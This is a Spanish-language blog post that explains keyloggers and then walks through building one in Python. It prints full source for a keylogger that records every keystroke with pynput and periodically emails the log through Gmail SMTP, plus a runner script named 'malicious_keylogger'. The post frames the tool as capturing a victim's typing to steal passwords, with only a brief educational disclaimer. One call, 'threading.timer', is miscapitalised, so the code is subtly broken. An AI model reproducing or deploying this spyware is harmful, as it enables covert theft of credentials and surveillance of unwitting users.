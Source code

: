 ```yaml
---
layout: single
title: "Teoria y creacion de un keylogger basico"
excerpt: "Un keylogger es un programa comúnmente utilizado por actores maliciosos para registrar y almacenar las pulsaciones del teclado con la intención de robar contraseñas o espiar en el equipo de la víctima. "
date: 2022-06-30
classes: wide
header:
 teaser: /assets/images/keylogger/keylogger.png
 teaser_home_page: true
categories:
  - programacion
tags:
  - seguridad
  - spyware
  - colombia
  - python
  - malware
---
```


<p align="center" >
<img src='/assets/images/keylogger/keylogger.png' width='300' height='300'/>
</p>

Un Keylogger es un pequeño programa diseñado para capturar todas las pulsaciones que son realizadas por un teclado, para guardarlas en un registro que puede verse luego en un ordenador local, o puede ser enviado con rapidez y seguridad a través de Internet a un equipo remoto. Sin embargo los keyloggers no siempre se basan en _software_, sino que tambien pueden estar basados en _hardware_, mas adelanto explico cada uno, pero en este post nos enfocaremos en el keylogger basado en software ya que capturaremos la escritura de teclas de la victima.

A pesar de ser usado mayormente para actividades ilicitas, los keyloggers tambien tienen un uso positivo en las empresas, ayudando en el control parental o el analisis interno de las mismas. En definitiva los keyloggers son tecnologias que nos permiten realizar un seguimiento y registrar cada tecla o pulsacion  tacil que se realiza en algun dispositivo electronico.

# Tipos de keylogger
Existen 2 tipos los cuales seran resumidos:

## Keylogger basado en software 
Este keylogger se trata de un programa ejecutable, que actúa como espía o virus, escrito en Python y es instalado en cualquier dispositivo electrónico con teclado para rastrear la escritura realizada con este. Normalmente, se instala sin consentimiento del usuario y realiza el registro de las pulsaciones del teclado e inclusive realiza capturas de pantalla, esto con el fin de obtener datos de acceso como por ejemplo los números de cuentas y sus contraseñas.

Posterior a esto, los datos capturados son guardados en un archivo que se le suele llamar `log.txt` y luego es enviado al atacante via correo electronico o talvez el archivo solo es guardado en el equipo local o enviado a un equipo remoto, siendo estas las tipologias de _keylogger_ mas comunes.

## Keylogger basado en hardware
Este keylogger de tipo _hardware_ suele implementarse a travez de firmware a nivel de BIOS o, alternativamente atravez de un dispositivo microelectronico conectado en linea entre en teclado de computadora y una computadora.

# Como se crea un keylogger basico?
El proposito de este post es con fines educativos, no me responsabilizo del uso que hagan con el. Con esta entrada quiero ensenar **como crear un keylogger con el lenguaje python**, este keylogger va guardar cada pulsacion de tecla y va almacenar esta informacion en un archivo de texto, Despues de x pulsaciones, el keylogger enviara un correo a una direccion especifica con el archivo adjunto.

Para que este keylogger funcione debemos hacer uso de algunas librerias o modulos de python las cuales son las siguientes: 

- smtplib: Este modulo o libreria define un objeto de sesion de cliente SMTP que se puede usar para enviar correos a cualquier maquina de internet con un demonio de escucha SMTP.
- re: Este modulo nos proporciona operaciones de conicidencia de expresiones regulares.
- subprocess: Este modulo permite invocar procesos desde python y comunicarse con ellos, es decir enviar datos a la entrada `stdin` y recibir la informacion de salida `stdout`.
- pynput: Esta biblioteca nos permite controlar y monitorear/escuchar los dispositivos de entrada como el teclado y el mouse.
- threading: Este modulo construye interfaces de hilado de alto nivel sobre el modulo de mas bajo nivel.

Ya sabiendo esto, pasamos a escribir el codigo donde usaremos tambien programacion orientada a objetos y despues sera explicar por partes el codigo.

```python
#!/usr/bin/env python
import smtplib
import threading
from pynput import keyboard

#create keylogger class
class KeyLogger:

  #definimos init variables 
  def __init__ (self, time_interval, email, password):
    self.interval = time_interval
    self.log = "[!] Keylogger has started..."
    self.email = email
    self.password = password

  # creamos el archivo log
  def append_to_log(self, string):
    self.log = self.log + string

  # creamos el keylogger
  def on_press(self, key):
    try:
      current_key = str(key.char)
    except AttributeError:
      if key == key.space:
        current_key = " "
      elif key == key.esc:
        print("[!] Exiting program...")
        return False
      else:
        current_key = " " + str(key) + " "
    
    self.append_to_log(current_key)

  # creamos la estructura trasera del mail
  def send_mail(self, email, password, message):
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

  # creamos el reporte y el envio del mail
  def report_and_sendmail(self):
    send_off = self.send_mail(self.email, self.password, "\n\n" + self.log)
    self.log = ""
    timer = threading.timer(self.interval, self.report_and_sendmail)
    timer.start()

  # start keylogger and send off mail
  def start(self):
    keyboard_listener = keyboard.Listener(on_press = self.on_press)
    with keyboard_listener:
      self.report_and_sendmail()
      keyboard_listener.join()
```
Como creamos una clase, pasamos a crear el archivo python que va ejecutar el keylogger

```python
import keylogger

#inicializamos
malicious_keylogger = keylogger.KeyLogger(10, 'test@gmail.com', '123456789')

#ejecutamos
malicious_keylogger.start()
```

Ahora pasamos a probar el keylogger
